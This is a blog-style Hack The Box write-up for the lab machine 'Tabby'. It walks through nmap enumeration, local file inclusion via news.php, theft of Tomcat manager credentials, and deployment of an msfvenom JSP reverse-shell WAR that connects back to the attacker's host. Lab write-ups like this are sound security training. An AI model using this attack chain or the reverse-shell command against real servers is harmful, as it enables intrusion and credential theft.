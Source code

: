 ```yaml
---
layout: single
title: "Hack The Box Write-up #5 : Tabby"
excerpt: "Writeup for Tabby, a machine provided by HacktheBox."
date: 2020-11-08
toc: true
toc_sticky: true
header:
  tagline: "Writeup for Tabby , a machine provided by HacktheBox."
  overlay_image: /assets/images/background.jpg
  overlay_filter: 0.5
  actions:
    - label: "Learn More"
      url: "https://www.hackthebox.eu/home/machines/profile/259"
  teaser: /assets/images/blunder-writeup/tabby.png
  teaser_home_page: true
  
categories:
  - hackthebox
tags:  
  - linux
  - cve
  - tomcat
---
```



## Enumeration

### nmap
As always we start by doing a nmap scan against the host (10.10.10.194) :

```sh
root@kali:/home/pi0x73# nmap -sC -sV -T4 10.10.10.194
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-08 14:50 CET
Nmap scan report for 10.10.10.194
Host is up (0.087s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.44 seconds
```

Some interesting information can be collected through the nmap scan where we see **Tomcat Apache** running on port 8080 , a web page on port 80 and a domain (megahosting.htb).

First thing, I am going to add the domain to the hosts file and procced through the web page.

We can do so by adding **megahosting.htb** under ip : 10.10.10.194 on **/etc/hosts** file on a new line.

### web

Procceding through the webpage, we are represented with a hosting platform service :

![web](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tabby-web.png)

Nothing much interesting till here , but after I while clicking around I saw an interesting piece of code in the page source : 

```html
<li><a href="#pricing">Infrastructure</a></li>
<li><a href="http://megahosting.htb/news.php?file=statement">News</a></li>
<li><a href="#about">About</a></li>
<li><a href="#callus">Support</a></li>
```

### file read

It seems like all of the buttons redirect to nowhere but news button has an interesting link attached. 
A php pagethat calls files from systemand shows them on the webpage so I though it was possible that we could achieve File Read from the remote host.

![lfi](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/lfi.png)

Obviously the File Read injection was successfuland I am able to read files from the system through the vulnerability. 

This could be a lot useful at the moment since we also noticed apache tomcat running on port 8080 , so I started looking around for the tomcat-users.xml file which holds the credentials configured for the administration panel.

To make the searching easier I installed **tomcat9** on my attacker machine to see where it saves the config files.

![tomcat9](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tomcat9.png)

Using those definitive paths I could try to retrieve the config file from the remote system and see if there is any information inside it :

```xml
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>

   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

I was able to grab and read the file from the host and we can easily see the credentials for tomcat running on 8080.

However while trying to connect with the given credentials on http://10.10.10.194:8080/manager I noticed that the I could not access the GUI panel, so I started googling about possible other ways.

After some time I came up with an interesting pip module : **tomcat-manager** which could help me use the panel through CLI .

![tomcatmgr](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tomcatmgr.png)

I found this module very helpful because not only I was able to connect to the tomcat manager service but I could also upload files through it.

### tomcat shell

So quickly create a payload using msfvenom and drop it to the web service using *tomcatmanager* :

```console
root@kali:~# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.30 LPORT=9001 -f war > shell.war
Payload size: 1090 bytes
Final size of war file: 1090 bytes

root@kali:~# tomcat-manager
tomcat-manager> connect http://10.10.10.194:8080/manager tomcat "$3cureP4s5w0rd123!"
--connected to http://10.10.10.194:8080/manager as tomcat
tomcat-manager> deploy local shell.war /zdf
tomcat-manager>
```
With the payload already uploaded to the web server , what's left to do is to navigate on ``http://10.10.10.194:8080/zdf`` in my case to triger the payload and recieve a reverse shell to my machine : 

![tomcat-shell](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tomcat-shell.png)


